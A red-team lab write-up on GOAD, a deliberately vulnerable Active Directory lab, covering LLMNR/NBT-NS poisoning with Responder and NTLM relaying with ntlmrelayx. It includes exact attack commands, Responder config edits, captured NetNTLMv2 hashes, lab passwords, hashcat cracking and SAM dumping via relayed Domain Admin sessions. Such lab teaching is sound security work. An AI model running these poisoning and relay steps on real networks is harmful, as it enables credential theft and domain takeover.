# GOAD Part 4 - Network Poisoning and NTLM Relaying

We have now reached one of the most dynamic, fun and operationally devastating phases of our Red Team engagement. Having transitioned from unauthenticated reconnaissance to mapping the forest with valid user credentials, we shift our operational focus to the network layer itself. In this phase, we move beyond simply asking the Domain Controllers for information and instead position ourselves directly inside the data stream, effectively inserting our attack infrastructure between legitimate clients and the servers they trust. This methodology is centered on the concepts of poisoning and relaying, which allows us to weaponize the inherent trust that Windows machines place in their local network environment to bypass authentication boundaries and escalate privileges without necessarily needing to crack a single password.

The core mechanics of this phase rely on exploiting legacy name resolution protocols and architectural quirks within the Windows operating system. In standard Active Directory environments, machines frequently broadcast queries to the local subnet using protocols like Link-Local Multicast Name Resolution (LLMNR) or NetBIOS Name Service (NBT-NS) when they cannot resolve a hostname via DNS. By default, Windows also favors IPv6 for network configuration over IPv4. We exploit these behaviors by answering these broadcasts or acting as a rogue DHCPv6 server, tricking the victim machine into believing that we are the authoritative destination for their traffic. 
This establishes us as a Man-in-the-Middle, coercing the victim to initiate an authentication handshake with our machine instead of their intended target.

Once we have successfully intercepted this traffic, our strategy diverges based on the value of the captured credentials and the defensive posture of the network. While capturing and cracking NetNTLMv2 hashes offline remains a valid tactic, it is often slow and ineffective against strong passwords. The far superior technique is NTLM Relaying. In this scenario, we do not simply record the incoming handshake; we act as a live proxy, instantaneously forwarding the authentication attempt to a different, high-value server within the domain. By managing this cryptographic three-way handshake in real-time, we leverage the victim's own valid credentials to authenticate to the target on our behalf, allowing us to execute code, modify directory attributes, or even enroll for certificates as the victim user.

The success of relaying operations is entirely dictated by the configuration of the protocol being targeted, specifically the status of packet signing. Protocols like SMB and LDAP support message signing to verify the integrity of the data stream, which mathematically prevents an attacker from inserting malicious commands into a relayed session. However, this protection is not universally enforced by default on all systems. Our methodology requires us to strictly identify which servers have SMB Signing disabled or LDAP Signing unenforced because these misconfigurations represent the exact pathways where our relays will succeed. Identifying a server with signing disabled is operationally equivalent to finding an unlocked door; it is where we direct our coerced authentication traffic.

Furthermore, we must distinguish between passive attacks, where we wait for a user to mistype a share name, and active coercion techniques where we force interaction. Advanced attacks allow us to utilize our authenticated footprint to trigger remote procedures on servers such as the Printer Bug or PetitPotam, that compel a target Machine Account to authenticate back to us immediately. This allows us to escalate from compromising a standard user to compromising a Domain Controller or a Certificate Authority in a matter of seconds. We effectively weaponize the network's own authentication protocols to bypass static security controls, proving that in a Windows environment, identity is often assumed rather than verified on the wire.

Since we already have 4 valid users, now let’s see what can be done with those users.

Domain: north.sevenkingdoms.local (`User Description`)
User: samwell
Pass: Heartsbane

Domain: north.sevenkingdoms.local  (`ASREP-Roasting`)
User: brandon.stark
Pass: iseedeadpeople

Domain: north.sevenkingdoms.local (`Password Spray`)
User: hodor
Pass: hodor

Domain: north.sevenkingdoms.local (`Kerberoasting`)
User: jon.snow
Pass: iknownothing

## **LLMNR/NBT-NS Poisoning and NTLM Stealing**

We begin our network-layer offensive by targeting the weakest link in the Windows name resolution hierarchy, utilizing a technique known as broadcast poisoning. While the Active Directory Domain Controllers are the authoritative source for network identities via DNS, Windows workstations retain a fallback mechanism designed for legacy compatibility and peer-to-peer networking that we can aggressively exploit. To execute this, we rely on **Responder**, a purpose-built tool that turns our attack machine into a rogue server capable of manipulating these name resolution requests.

To understand why this attack works, we must analyze the specific sequence of events that occurs when a user triggers a failed connection. In our current GOAD scenario, the simulated bot **robb.stark** is attempting to mount an SMB share at `\\\\bravos`. This is a deliberate typographic error, the legitimate server name is **braavos**. When the workstation attempts to resolve this non-existent hostname, it first queries the local host file, then its local DNS cache, and finally sends a standard DNS query to the Domain Controller. The DC, having no record for "bravos," responds with an "NXDOMAIN" or "Not Found" error.

In a secure environment, the resolution attempt would end there. However, modern Windows systems still prioritize usability over strict security in default configurations. Upon receiving the DNS failure, the workstation assumes the target might be a local machine not registered in the domain DNS. It broadcasts a query to the entire local subnet using **LLMNR** (Link-Local Multicast Name Resolution) on UDP 5355 and **NBT-NS** (NetBIOS Name Service) on UDP 137, effectively shouting: "**`Does anyone on this wire know who bravos is?`**"

This is the moment we insert ourselves into the protocol flow. **Responder** listens for these specific broadcast packets. As soon as it sees the query for "bravos", it replies to the victim machine, lying that our attack IP address is the server they are looking for. Because LLMNR and NBT-NS are unauthenticated UDP protocols, the victim machine implicitly trusts our response. Believing it has found the file server, the workstation initiates an SMB authentication handshake with our machine. Since Responder is running a rogue SMB authentication server, it captures the **NetNTLMv2** challenge-response hash that the victim sends to prove their identity.

To operationalize this in our environment, we execute Responder targeting the interface connected to the GOAD lab. I’ll be using a new Responder fork from [lgandx Github](https://github.com/lgandx/Responder). The official Responder is not being maintained anymore.
We utilize flags to optimize our capture capability: the `-d` and `-w` flags can be used to handle DHCP and WPAD specifically, though for a pure credential capture, standard listening is often sufficient. We utilize the `-v` flag to increase verbosity so we can see the poisoned answers in real-time.

Once the attack is active, we simply wait for the event. As soon as `robb.stark` generates the typo, our terminal will light up with a poisoning event notification, followed immediately by the capture of the **Client IP**, **Username**, and the **NetNTLMv2 Hash**. It is crucial to understand that this is **not** the cleartext password (which would be NTLMv1 or plain auth), but rather a cryptographic challenge hash. We cannot use this hash for Pass-the-Hash attacks, instead, we must take this captured artifact offline and attempt to crack it using Hashcat (mode 5600). This technique converts a simple network misconfiguration into a verifiable user credential, giving us yet another valid account to leverage for our later enumeration phases.

`sudo responder -I vmnet2 -dwP -vvv`

`-I` : *--interface=eth0 = Network interface to use, you can use 'ALL' as a wildcard for all interfaces*

`-d` : *--DHCP* = Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response. Default: False

`-w` : *--wpad* = Start the WPAD rogue proxy server. Default value is False

`-P` :* --ProxyAuth* = Force NTLM (transparently)/Basic (prompt) authentication for the proxy. WPAD doesn't need to be ON. This option is highly effective. Default: False

`-v` : --verbose = Increase verbosity.

The bot `robb.stark` attempts to establish an SMB connection to 'bravos' instead of 'braavos'. Since the DNS cannot resolve 'bravos' (with one 'a'), Windows defaults to sending a broadcast request to locate the computer. With Responder, we intercept this broadcast query, claiming that our server is the intended target, thereby capturing the connection from the user.



```c
[SMB] NTLMv2-SSP Client   : 10.4.10.11
[SMB] NTLMv2-SSP Username : NORTH\robb.stark
[SMB] NTLMv2-SSP Hash     : robb.stark::NORTH:01f4015df25f87e4:3BF36B5251AC8C43032472F019768D74:0101000000000000008915F17684DC0103414CD8D489E53E00000000020008004D004D0049005A0001001E00570049004E002D005100360054004B0038004C0031005100450037004F0004003400570049004E002D005100360054004B0038004C0031005100450037004F002E004D004D0049005A002E004C004F00430041004C00030014004D004D0049005A002E004C004F00430041004C00050014004D004D0049005A002E004C004F00430041004C0007000800008915F17684DC0106000400020000000800300030000000000000000000000000300000951F8CA0F672A06FD4CA0ACD3A4D36E8267DD567EA2DD61CC0C5DB0174E981450A001000000000000000000000000000000000000900160063006900660073002F0042007200610076006F0073000000000000000000
```

After a few more minutes (with the eddard bot running every 5 minutes and the robb bot every 3 minutes), we also received a connection from `eddard.stark`.



```c
[SMB] NTLMv2-SSP Client   : 10.4.10.11
[SMB] NTLMv2-SSP Username : NORTH\eddard.stark
[SMB] NTLMv2-SSP Hash     : eddard.stark::NORTH:5320d7cf139d156b:2901B41FC44CD6B0DCBD9FAD5DB13AF8:0101000000000000008915F17684DC011555C588B1CE317B00000000020008004D004D0049005A0001001E00570049004E002D005100360054004B0038004C0031005100450037004F0004003400570049004E002D005100360054004B0038004C0031005100450037004F002E004D004D0049005A002E004C004F00430041004C00030014004D004D0049005A002E004C004F00430041004C00050014004D004D0049005A002E004C004F00430041004C0007000800008915F17684DC0106000400020000000800300030000000000000000000000000300000951F8CA0F672A06FD4CA0ACD3A4D36E8267DD567EA2DD61CC0C5DB0174E981450A001000000000000000000000000000000000000900140063006900660073002F004D006500720065006E000000000000000000
```

### Cryptographic Analysis

Upon successfully intercepting the broadcast resolution requests via Responder, we secured the **NetNTLMv2** cryptographic challenges for both **robb.stark** and **eddard.stark**. These hashes represent the user's proof of knowledge of their password without transmitting the password itself, forcing us to transition these artifacts to our offline cracking infrastructure for recovery. We utilized **Hashcat** with mode **5600**, targeting the hashes against the `rockyou.txt` wordlist to audit the password complexity policies of these specific users.

**NetNTLMv2**

`hashcat -m 5600 -a 0 robb_NTLMv2_HASH /usr/share/wordlists/rockyou.txt.gz -O`



This process yielded a rapid and critical compromise of the **robb.stark** identity, revealing the plaintext credential **`sexywolfy`**. The significance of this finding cannot be overstated because our previous RID brute-force enumeration identified Robb Stark as a member of the **North Domain Admins** group. Consequently, cracking this single weak password has effectively granted us administrative control over the **Winterfell** Domain Controller, allowing us to log in via Evil-WinRM or SMB to dump the entire domain database if we choose.

Conversely, the hash for **eddard.stark** resisted our dictionary attack, indicating that his account adheres to a stricter complexity requirement or utilizes a password length that renders GPU cracking computationally infeasible within a reasonable engagement window. This dichotomy illustrates the two distinct paths available when handling captured network hashes, if the password is weak, we crack it to gain persistent access, if the password is strong like Eddard's we acknowledge the cracking limitation and immediately pivot our strategy to **NTLM Relaying**. Since we cannot recover Eddard's plaintext password, we will instead abuse the validity of his hash on the wire to impersonate him against other servers, proving that even uncrackable passwords can be weaponized if the underlying network protocols are not secured against relay attacks.

**`Note:`** If you want to delete the previously captured logs (to avoid skipping previously captured hashes), delete the file `/opt/tools/Responder/Responder.db`.

## **NTLM relay**

We shift tactics now from cryptographic exhaustion to active protocol abuse. Since the captured NetNTLMv2 hash for **eddard.stark** proved resistant to our cracking efforts, it ceases to be a credential we possess and becomes a stream of authentication data we must weaponize in real-time. This technique is **NTLM Relaying**, an attack that exploits the architecture of the challenge-response mechanism itself rather than the weakness of the password.

At a fundamental level, NTLM Relaying is a Man-in-the-Middle attack applied to authentication. When a victim machine attempts to authenticate to us (likely triggered by our previous LLMNR/NBT-NS poisoning or an active coercion), we do not validate the credentials ourselves. Instead, we immediately open a simultaneous connection to a secondary, high-value target server. We act as a conduit, when the Target Server issues a cryptographic challenge, we pass it back to the Victim. The Victim, believing we are the server, solves the challenge using their valid credentials. We capture that valid response and forward it to the Target Server. The Target, verifying the math is correct, grants **us** access under the Victim's identity.

To execute this successfully, we must navigate the complex landscape of **Packet Signing**, which serves as the primary defense against this technique. Signing effectively puts a digital signature on every packet using the user's password, if we relay the session without knowing the password, we cannot generate these signatures, and the target server will drop the connection. Therefore, before we launch any relay tools, we must rigorously map the domain to identify which services enforce signing and which do not.

1. **SMB Signing:** This is "Required" by default on all Domain Controllers but often only "Enabled" (optional) on workstations and member servers. This means we generally **cannot** relay SMB-to-SMB if the target is a DC, but we *can* relay to other workstations to execute code or dump SAM hives.
1. **LDAP Signing:** Traditionally not enforced by default, though modern updates are changing this. If not enforced, we can relay an NTLM connection to the LDAP service on a Domain Controller. This is incredibly potent because it allows us to modify Active Directory objects, create users, or extract data from the database using the victim's privileges.
1. **HTTP(S):** Services like Active Directory Certificate Services (ADCS) often do not enforce Extended Protection for Authentication (EPA). Relaying to HTTP is widely considered the "Golden Vector" because the HTTP protocol in Windows does not typically sign packets by default, making it highly susceptible to relay attacks (such as the infamous ESC8 vector).
We also leverage the power of **Cross-Protocol Relaying**. NTLM is an encapsulated protocol, meaning it is transport-independent. A request that starts as an SMB authentication attempt from a victim can be stripped of its SMB headers and relayed into an LDAP or HTTP request on the target server. This flexibility is what allows us to turn a standard file-share connection attempt by **eddard.stark** into a specialized administrative action against the domain infrastructure.

From an operational setup, we must prepare our infrastructure by modifying **Responder.conf**. We need to turn *off* the SMB and HTTP servers inside Responder. We cannot be the server and the relay simultaneously, we need Responder to poison the name, but we need **impacket-ntlmrelayx** to handle the actual listening and forwarding of the heavy authentication traffic. This separation of duties, poisoning versus relaying, is the foundational setup for every advanced Man-in-the-Middle campaign in a Windows environment.

Before we launch a single poisoned packet, we must rigorously define the "kill list" for our relay operation. Blindly relaying credentials to every host on the subnet is operationally reckless and technically futile because the vast majority of Windows systems specifically Domain Controllers will reject our forwarded authentication attempts due to enforced **SMB Signing**. Our objective in this phase is to use **NetExec** to interrogate the network and mathematically determine which servers will accept a relayed, unsigned authentication session.

The technical distinction we are hunting for is the difference between "Signing Enabled" and "Signing Required." This is a frequent point of confusion that separates junior testers from senior operators. When NetExec reports `signing:True` (often in green), it merely indicates that the server is *capable* of signing packets. It does not necessarily mean it *mandates* it. In a default Active Directory environment, Domain Controllers require signing (Secure), while member servers and workstations simply have it enabled (Vulnerable). If the server only "Enables" signing, our relay tool can negotiate a session protocol that simply declines to sign the packets, and the server will accept it.

`netexec smb 10.4.10.0/24 --gen-relay-list hosts`



In our scan of the **10.4.10.0/24** subnet, NetExec automatically handles this logic for us with the `--gen-relay-list` flag. Looking at our output, we see a crucial dichotomy. **Kingslanding**, **Winterfell**, and **Meereen** are Domain Controllers, their security policy strictly enforces signing, meaning any attempt to relay SMB traffic to them will result in a hard disconnect and a "Signature Verification Failed" event log. NetExec correctly filters these out. Conversely, we identify **Castelblack** and **Braavos** as our primary targets. Specifically, **Braavos** shows `signing:False` (in Red), indicating an extremely insecure configuration, likely unrelated to SMBv1 legacy support where the server essentially offers zero integrity protection on the wire.

The result of this scan is the generation of our **`hosts.txt`** file, which now contains `10.4.10.22` and `10.4.10.23`. This list acts as the targeting system for **ntlmrelayx**. By feeding this file into our relay tool, we ensure that when we inevitably capture credentials from a victim like Eddard Stark, we do not waste that capture on a hardened Domain Controller that will reject us. Instead, we surgically direct that traffic only to Braavos and Castelblack, ensuring the highest probability of obtaining a shell or dumping the SAM database without triggering immediate defensive alerts associated with failed authentication negotiation. We have now separated the "unhackable" infrastructure from the soft underbelly of the domain member servers.

The logical next step after identifying our vulnerable targets is to mechanically prepare our attack infrastructure to support the relay. We cannot simply run the tools, we must resolve the fundamental network architecture conflict that occurs when two separate tools attempt to control the same listening sockets. By default, **Responder** is designed to be greedy, it wants to bind to every authentication port (UDP 137, UDP 5355, TCP 445, TCP 80, etc.) to capture credentials locally. However, for a relay attack, **impacket-ntlmrelayx** must own the authentication listener interfaces (specifically TCP 445 and TCP 80) so it can perform the cryptographic handshake with the victim. If we do not disable these services in Responder first, `ntlmrelayx` will crash immediately with an "Address already in use" error because the sockets are occupied.

Therefore, we must modify the **Responder configuration file** to fundamentally change the tool's role from a "Cred-Catcher" to a "Traffic-Poisoner." Our goal here is to let Responder handle the name resolution spoofing (poisoning LLMNR/NBT-NS to say "I am the server"), while forcing it to ignore the subsequent connection attempt so that our relay server can pick it up.

To execute this, we edit the configuration file located at `/usr/share/responder/Responder.conf` (or `/etc/responder/Responder.conf` depending on your distro) and perform the following surgical adjustments:

**1. Locate the ****`[Responder Core]`**** section.2. Modify the ****`SMB`**** and ****`HTTP`**** servers to ****`Off`****.**

```plain text
; Servers to start
SQL = On
SMB = Off     <-- CRITICAL CHANGE
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    <-- CRITICAL CHANGE
HTTPS = On
DNS = On
LDAP = On
```

By explicitly setting **SMB = Off**, we leave TCP port 445 open on our local interface. By setting **HTTP = Off**, we free up TCP port 80. This configuration is what allows us to establish the "Split-Infrastructure" required for the attack: Responder lies to the network to redirect traffic, and `ntlmrelayx` silently catches that redirected traffic on the now-available ports to perform the active forward. Without this specific configuration change, we are essentially attacking ourselves by blocking our own relay listener.

## **1st - OPTION: Automated Secrets Dumping (Non-Interactive)**

To execute this attack effectively, we need to spin up two separate terminal instances. This creates our "Hunter/Killer" dynamic! One tool forces the traffic to us (Responder), and the other catches it to weaponize the authentication (ntlmrelayx).

### Initialize the Poisoner (Responder)

We begin by launching Responder on our primary interface. Because we previously disabled the SMB and HTTP servers in the configuration file, Responder initiates in **"Poison Only"** mode. It will aggressively answer LLMNR, NBT-NS, and MDNS broadcasts (`-dw` flags) to redirect victims to our machine, but it will deliberately leave TCP ports 445 and 80 open for our relay tool. We utilize verbose mode (`-v`) to ensure we can visually confirm when a poisoned answer has been sent to the network.

`sudo responder -I eth0 -dw -v`


### Initialize the Relay (ntlmrelayx)

In a second terminal, we launch the relay engine. We feed it the **`hosts.txt`** file we generated earlier during our NetExec reconnaissance (`-tf` flag). This ensures we are only attempting to forward credentials to targets known to have SMB Signing disabled, preventing wasted connections. We also append `-smb2support` to ensure compatibility with modern Server 2019/2022 environments like the one found in GOAD.

`impacket-ntlmrelayx -tf hosts.txt -smb2support`


Once both tools are active, we simply wait. The moment a victim machine (like a bot or a real user) triggers a broadcast request by mistyping a server name or failing a DNS lookup, Responder will direct them to us, and `ntlmrelayx` will immediately seize that connection to attack the targets in our list.



Here we are seeing the difference between a successful relay that just grants a session and a successful relay that yields the **Local Administrator** crown jewels. The captured authentication stream comes from **NORTH\EDDARD.STARK**, originating from the Domain Controller (**Winterfell**). Since Eddard is a Domain Administrator, his credentials hold the highest possible privileges within the North domain, effectively turning our relay station into a weapon of mass destruction against any host that does not enforce SMB signing.

We observe the same split result regarding **Braavos (10.4.10.23)** that we saw previously. The authentication succeeds because Eddard is a valid forest principal, but the lack of Local Administrator rights on that cross-domain server results in a `DCERPC Runtime Error`. This reinforces our understanding of the trust boundary; just because you are a King in the North does not mean you have administrative jurisdiction in Essos. However, the result against **Castelblack (10.4.10.22)** is where the operational impact shifts drastically.

Unlike the SOCKS proxy state we entered with Robb, here `ntlmrelayx` automatically detected that Eddard’s session granted full administrative control over the target. Instead of idling, the tool actively pivoted into post-exploitation automation. We can verify this behavior by looking at the log lines: `Service RemoteRegistry is in stopped state` followed by `Starting service RemoteRegistry`. This confirms that we possess enough privilege to manipulate the Service Control Manager on the target machine. By starting the Remote Registry service, our tool creates a pathway to interact with the protected storage of the operating system.

The resulting output block containing lines like `Administrator:500:aad3b...` confirms that we have successfully dumped the **Security Account Manager (SAM)** database of Castelblack. We have moved from borrowing a live session to stealing permanent credentials. Specifically, we have retrieved the NTLM hash for the local **Administrator (RID 500)**. This is a critical victory because in many environments, local administrator passwords are reused across multiple servers or workstations. We can now take this hash and perform a **Pass-the-Hash** attack to log into Castelblack (or potentially other servers in the North domain) whenever we choose, without relying on the victim to trigger a relay event again.

From an OpSec perspective, we must acknowledge that this attack was "loud" in a forensic sense. Starting a system service remotely generates **Event ID 7036** (Service Control Manager) on the target, and the act of remotely reading the SAM database leaves distinct traces in the registry access logs if auditing is enabled. However, the trade-off is often acceptable because we have secured a permanent backdoor (the Admin hash) that exists independently of the transient NTLM relay session. We have effectively converted a broadcast poison event into a permanent administrative foothold on the domain infrastructure.

Above, we have a proof of concept (PoC) demonstrating the successful exploitation of this attack, where the user NORTH/eddard.stark logged into the machine at 10.4.10.22 and successfully dumped the SAM hashes.
`hashcat -m 1000 -a 0 hash ~/Documents/Tools/SecLists/rockyou.txt`



## **Option 2: Interactive SMB Session Relaying**

We now shift our strategy from automated data extraction to establishing persistent, interactive control over the victim session. While our previous attack focused on "smash and grab" tactics automatically dumping the SAM database and closing the connection, there are operational scenarios where we require a more surgical approach. By utilizing the interactive flag (`-i`) within **impacket-ntlmrelayx**, we tell the tool to maintain the relayed session after a successful authentication rather than immediately terminating it. This essentially creates a stable, hijacked pipe into the target machine that we can manually explore using a specialized listener.

The preparation for this attack remains identical on the infrastructure side. We continue to run **Responder** in its pure "poisoner" configuration, with the SMB and HTTP servers disabled, ensuring that it directs broadcast traffic to us while leaving the TCP ports free for the relay listener. However, we modify our **ntlmrelayx** command to include the **`-i`** flag. When this mode is active, the tool behaves like a proxy server. Upon a successful relay to a target like Braavos or Castelblack, instead of running a payload, `ntlmrelayx` will bind a local TCP port (sequentially starting at **11000**) on our Kali loopback interface (127.0.0.1) and bridge that port directly to the authenticated SMB session on the remote server.

Once we receive the notification that a connection has been relayed and a port typically **127.0.0.1:11000** or **11001 **is successfully bound, we utilize a standard netcat client (`nc`) to connect to our own localhost on that specific port. This connection drops us immediately into an interactive SMB shell that mimics the functionality of `smbclient`, but runs entirely within the context of the relayed user (e.g., Robb Stark). From this shell, we can browse the remote file system, list directory contents, upload malicious payloads, or download sensitive files, all without ever knowing the user's password. This method offers significantly better OpSec for sensitive environments, as we can perform targeted searches for configuration files or specific data (like the GPP xml) without triggering the massive volume of Event ID 4663 logs associated with a full automated spider or hash dump. We are effectively holding the door open and walking through it manually to look around the specific room we choose.

`sudo responder -I eth0 -dw -vvv`

`[ntlmrelayx.py](http://ntlmrelayx.py/)`` -tf hosts.txt -smb2support -i`



The output above confirms successful authentication on host 10.4.10.23 with the user robb.stark, and a port forwarding to port 11001 has been established. Now, to access our localhost, we simply use netcat on port 11001 to navigate through all folders and files by using **`shares`** to identify and **`use`** to use the shares we want to access.

`nc -nv 127.0.0.1 11001`



## **Option 3: SOCKS Proxy Pivoting**

We arrive at the most versatile and powerful variant of the NTLM Relay arsenal. The **SOCKS Proxy integration**. While our previous options locked us into a specific behavior, either an automated data dump or a restricted interactive shell by activating the **`-socks`** flag essentially transforms our attack machine into a fully functional authentication gateway. This technique does not just relay a connection, it captures the session and holds it open in a thread pool, allowing us to route any external tool we choose through that established authentication tunnel using standard proxy chains.

This approach represents a significant leap in tactical flexibility. When we execute **impacket-ntlmrelayx** with the `-socks` argument, the tool initializes a SOCKS4 proxy server on our local machine (typically listening on port 1080). When a victim like **Eddard Stark** connects to us via our Responder poisoning, `ntlmrelayx` completes the relay handshake with the target servers in our `hosts.txt` list but keeps the socket alive. To the target server, there is an active, idle SMB session authenticated by a Domain Admin. To us, this appears as an available "slot" in our local proxy. We can then utilize tools like **proxychains** to funnel generic commands, such as `netexec`, `rpcclient`, `smbclient`, or even `secretsdump.py` through the SOCKS tunnel. Our local tools perceive an open network path, while the remote server perceives continuous legitimate instructions from Eddard Stark.

This configuration is particularly potent because it allows for **sequential multi-stage exploitation** on a single relayed session. For example, we could first route a `netexec` scan through the proxy to audit the local group memberships of our relayed user. Once confirmed as an Administrator, we could immediately run `secretsdump.py` through the same proxy to extract the NTDS.dit or SAM hashes, and finally run `smbclient` to explore sensitive shares, all riding on the backbone of that one captured broadcast event. This negates the need to re-poison the victim for every separate action we wish to take.

Additionally, the command we are executing includes the **`-of`**** (Output File)** flag. This ensures we are maintaining a robust "loot retention" strategy. Even while we are relaying the session for active attacks, this flag compels the tool to save the captured NetNTLMv2 hashes to a file simultaneously. This provides us with a failsafe if the live relay fails or the session drops, we still possess the cryptographic material required to attempt offline cracking with Hashcat later. This dual-use configuration maximizes the value of every single captured packet.

`ntlmrelayx -tf smb_targets.txt -of NTLM_Hash -smb2support -socks`

`tf` : list of targets to relay the authentication

`of` : output file, this will keep the captured smb hashes just like we did before with responder, to crack them later

`smb2support` : support for smb2

`socks` : will start a socks proxy to use relayed authentication

Start responder to redirect queries to the relay server.

`responder -I eth0 -vvv`



This screenshot confirms that we have successfully transitioned our attack infrastructure into a **SOCKS Proxy state**, which is fundamentally different from the previous methods. 
The key indicator here is the phrase `Adding ... to active SOCKS connection. Enjoy`.

